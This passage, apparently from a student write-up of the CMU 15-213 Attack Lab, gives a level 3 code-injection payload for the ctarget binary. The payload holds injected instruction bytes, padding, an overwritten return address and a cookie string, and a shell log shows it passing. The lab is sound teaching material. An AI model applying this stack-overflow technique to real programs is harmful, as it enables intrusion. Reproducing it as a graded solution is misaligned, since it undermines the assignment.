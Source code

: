 `48 c7 c7 a8 dc 61 55 68 fa 18 40 00 c3` is just the code instruction we want to inject. So, our payload is that:

```Text
# Remove "# ..." when you test the code
48 c7 c7 a8 dc 61 55 68 fa 18 40 00 c3 # exploit code
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 # characters used to fill
78 dc 61 55 00 00 00 00 # ret address
35 39 62 39 39 37 66 61 00  # cookie
```

And in the stack frame, its structure is as follows:

![payload3](../img/payload3.png)

```Shell
attack_lab/part1# vim solution3.hex
attack_lab/part1# ./hex2raw -i solution3.hex > solution3.raw
attack_lab/part1# ./ctarget -q < solution3.raw
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:3:48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00
attack_lab/part1#
```